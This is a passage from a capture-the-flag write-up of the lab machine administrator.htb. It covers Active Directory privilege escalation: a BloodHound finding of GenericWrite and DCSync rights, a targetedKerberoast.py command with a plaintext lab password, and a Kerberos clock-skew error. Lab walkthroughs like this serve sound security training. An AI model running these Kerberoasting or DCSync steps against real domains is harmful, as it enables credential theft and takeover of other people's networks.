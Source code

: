 ### User.flag

```bash
more C:\Users\emily\Desktop\user.txt
```



## AD Privilege Escalation 2

Now, always by bloodhound we can see that the `emily` user has the `GenericWrite` privilege on `ethan` user, and `ethan` user has privilege to perferm a`DCSync attack` to Domain.

<figure><img src="../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

### Kerberoast Attack

{% code overflow="wrap" %}
```bash
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

The `KRB_AP_ERR_SKEW(Clock skew too great)` error indicates that we have to syncronize the clock of out session with the clock of the AD.

